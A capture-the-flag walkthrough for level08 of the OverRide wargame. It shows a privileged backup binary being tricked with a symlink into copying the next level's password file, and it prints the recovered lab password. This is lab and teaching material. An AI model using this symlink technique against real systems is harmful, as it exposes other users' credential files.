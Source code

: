 This binary will take a file as an argument, write a copy to a directory called "backups", and write the status in a .log file inside this directory :

    level08@OverRide:~$ echo "hello world" > bbbb
    level08@OverRide:~$ ./level08 bbbb
    level08@OverRide:~$ cat backups/bbbb 
    hello world
    level08@OverRide:~$ cat backups/.log 
    LOG: Starting back up: bbbb
    LOG: Finished back up bbbb

What if we try with the level09 password file ?

    level08@OverRide:~$ ./level08 "../level09/.pass"
    ERROR: Failed to open ./backups/../level09/.pass

It seems we successfuly opened the password file, but the issue lies in how the backup is being done. Using relative paths seems to mess it up. Let's try with absolute paths :

    level08@OverRide:~$ ./level08 /home/users/level09/.pass
    ERROR: Failed to open ./backups//home/users/level09/.pass

It seems the directories are at fault here. If we could get rid of them, the thing should work. That's when symlinks come in handy :

    level08@OverRide:~$ ln -s ../level09/.pass exploit
    level08@OverRide:~$ ./level08 exploit
    level08@OverRide:~$ cat backups/exploit 
    fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
